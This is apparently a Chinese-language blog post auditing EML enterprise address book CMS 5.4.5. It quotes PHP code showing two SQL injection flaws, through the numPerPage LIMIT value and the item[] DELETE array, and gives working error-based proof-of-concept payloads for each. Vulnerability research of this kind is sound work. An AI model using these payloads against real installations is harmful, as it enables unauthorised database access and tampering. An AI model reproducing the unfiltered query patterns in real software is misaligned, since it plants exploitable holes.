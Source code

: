 ```yaml
---
title: EML企业通讯录管理系统两处注入分析
date: 2018-8-12
tags: 代码审计
---
```


# 0x00 前言

最近一直在用onenote整理笔记，结果发现博客已经荒了很久了，就把审过的漏洞贴上来吧。虽然没有什么技术含量，但总归是一点记录。

# 0x01 漏洞环境

CMS：EML企业通讯录管理系统

版本：5.4.5

官方网站：http://bbs.emlsoft.com 

更新时间：2018.7.26 

测试环境：windows10+phpstudy+php5.5

# 0x02 漏洞分析

### 过滤函数：

对于小cms的sql注入的审计，一般存在两个方向：

1. 系统过滤机制的正面bypass;
2. 过滤的盲区(如：GPC之外的注入、limit/orderby之后的注入、二次入库的注入以及忘记过滤的地方等.);

当然，后者出现的概率更大并且也更好挖一点，先来看看过滤函数：

/lib/func.class.php:(27-37行)

```php
//安全验证
function _RunMagicQuotes(&$svar){
	if(!get_magic_quotes_gpc())	{
		if( is_array($svar) ){
			foreach($svar as $k => $v) $svar[$k] = _RunMagicQuotes($v);
		}else{
			$svar = addslashes($svar);
		}
	}
	return $svar;
}
```

未开启GPC则使用addslashes，也考虑到了数组的情况。感觉只要使用得当，就应该没有什么问题。

### 第一处注入：

action/action.address.php：（60-68行）

```php
 //设置分页
	if($_POST[numPerPage]==""){$numPerPage="10";}else{$numPerPage=$_POST[numPerPage];}
	if($_GET[pageNum]==""||$_GET[pageNum]=="0" ){$pageNum="0";}else{$pageNum=($_GET[pageNum]-1)*$numPerPage;}
	$num=mysql_query("select * from eml_address_list where 1=1 $search");//当前频道条数
	$total=mysql_num_rows($num);//总条数	
	$page=new page(array('total'=>$total,'perpage'=>$numPerPage));

 //查询
	$sql="select * from eml_address_list  where 1=1  $search order by id desc limit $pageNum,$numPerPage";
```

$pageNum $numPerPage 未进行过滤处理直接带入了查询语句，但是前者应该无法利用：`（$pageNum=($_GET[pageNum]-1)*$numPerPage;）`

后者位于limit中并且存在order by，([参考文章](http://www.freebuf.com/articles/web/57528.html))可使用如下利用方式。

POC：

`numPerPage=1 procedure analyse(extractvalue(rand(),concat(0x7e,version())),0x7e);`

![](/images/sqli1.PNG)

### 第二处注入：

action/action.address.php：（186-206行)

```php
//批量删除
if($do=="del_all"){
	If_rabc($action,$do); //检测权限
	is_admin($action,$do); //检测权限
	$arr = $_POST["item"];
	$count_arr=count($arr); 
	if($count_arr==0){
	echo error($msg); 
	exit;
	}
	$str = implode("','",$arr);//拼接字符
	
	$sql = "delete from eml_address_list WHERE id in('{$str}')";
	
	if($db->query($sql)){echo success($msg,"?action=address");}else{echo error($msg);}
```

item参数通过POST方法传入，使用implode函数进行数组=>字符串，然后未经过滤直接进入delete语句执行，同样是忘记使用过滤函数的问题，不同点是必须传入数组才能利用，当然此处检测了is_admin，需要后台权限才能利用，比上一处利用条件更苛刻。

POC:

`item[]=2') or updatexml(1,concat(0x7e,(version())),0) -- dd`

![](/images/sqli2.PNG)

# 0x03 总结

感觉简单的太简单，难的又审不动，要走的路还很长呢。。。 
